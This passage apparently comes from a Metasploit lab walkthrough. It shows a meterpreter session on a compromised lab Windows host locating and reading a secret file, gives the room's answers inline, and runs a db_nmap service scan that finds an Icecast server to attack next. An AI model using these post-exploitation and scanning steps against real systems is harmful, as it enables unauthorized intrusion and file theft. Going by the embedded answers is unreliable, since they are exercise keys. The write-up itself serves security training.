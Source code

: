 Where is the "realsecret.txt" file located? (Full path of the file) `c:\inetpub\wwwroot\realsecret.txt `
```
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 09:30:24 +0100

meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd "inetpub"
meterpreter > pwd
C:\inetpub
meterpreter > cd "wwwroot"
meterpreter > cat realsecret.txt
The Flash is the fastest man alive
```
What is the real secret?   `The Flash is the fastest man alive`

## [Task 5] Move that shell! 

Remember that database we set up? In this step, we're going to take a look at what we can use it for and exploit our victim while we're at it!

As you might have noticed, up until this point we haven't touched nmap in this room, let alone perform much recon on our victim box. That'll all change now as we'll take a swing at using nmap within Metasploit. Go ahead and deploy the box now, it may have up to a three-minute delay for starting up our target vulnerable service.

*Note, Metasploit does support different types of port scans from within the auxiliary modules. Metasploit can also import other scans from nmap and Nessus just to name a few.

1. Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command 'db_nmap -sV BOX-IP'

```
msf5 > db_nmap -sV 10.10.223.155
[*] Nmap: Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-11 04:57 EDT
[*] Nmap: Nmap scan report for 10.10.223.155
[*] Nmap: Host is up (0.067s latency).
[*] Nmap: Not shown: 988 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
[*] Nmap: 8000/tcp  open  http               Icecast streaming media server
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49158/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49159/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49160/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 71.23 seconds
```
